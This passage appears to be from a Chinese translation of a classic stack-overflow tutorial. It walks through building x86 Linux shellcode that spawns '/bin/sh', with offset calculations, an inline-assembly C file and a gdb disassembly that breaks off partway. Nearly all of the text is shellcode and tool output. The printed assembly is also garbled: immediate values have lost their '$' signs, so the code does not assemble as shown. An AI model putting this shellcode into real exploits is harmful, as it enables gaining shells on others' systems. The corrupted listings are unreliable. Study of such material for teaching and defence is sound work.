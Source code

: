 通过计算从jmp到call, 从call到popl, 从字串地址到数组, 从字串地址到空长字的
偏量, 我们得到:

```
jmp 0x26 # 2 bytes
popl %esi # 1 byte
movl %esi,0x8(%esi) # 3 bytes
movb x0,0x7(%esi) # 4 bytes
movl x0,0xc(%esi) # 7 bytes
movl xb,%eax # 5 bytes
movl %esi,%ebx # 2 bytes
leal 0x8(%esi),%ecx # 3 bytes
leal 0xc(%esi),%edx # 3 bytes
int x80 # 2 bytes
movl x1, %eax # 5 bytes
movl x0, %ebx # 5 bytes
int x80 # 2 bytes
call -0x2b # 5 bytes
.string \"/bin/sh\" # 8 bytes
```

这看起来很不错了. 为了确保代码能够正常工作必须编译并执行. 但是还有一个问题. 我们的代码修改了自身, 可是多数操作系统将代码页标记为只读. 为了绕过这个限制我们 必须把要执行的代码放到堆栈或数据段中, 并且把控制转到那里. 为此应该把代码放到数 据段中的全局数组中. 我们首先需要用16进制表示的二进制代码. 先编译, 然后再用gdb 来取得二进制代码.

shellcodeasm.c

```
void main() {
    __asm__("
        jmp 0x2a # 3 bytes
        popl %esi # 1 byte
        movl %esi,0x8(%esi) # 3 bytes
        movb x0,0x7(%esi) # 4 bytes
        movl x0,0xc(%esi) # 7 bytes
        movl xb,%eax # 5 bytes
        movl %esi,%ebx # 2 bytes
        leal 0x8(%esi),%ecx # 3 bytes
        leal 0xc(%esi),%edx # 3 bytes
        int x80 # 2 bytes
        movl x1, %eax # 5 bytes
        movl x0, %ebx # 5 bytes
        int x80 # 2 bytes
        call -0x2f # 5 bytes
        .string \"/bin/sh\" # 8 bytes
    ");
}
```

```
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm
GDB is free software and you are welcome to distribute copies of it
under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 : pushl %ebp
0x8000131 : movl %esp,%ebp
0x8000133 : jmp 0x800015f
0x8000135 : popl %esi
0x8000136 : movl %esi,0x8(%esi)
0x8000139 : movb x0,0x7(%esi)
0x800013d : movl x0,0xc(%esi)
0x8000144 : movl xb,%eax
0x8000149 : movl %esi,%ebx
0x800014b : leal 0x8(%esi),%ecx
```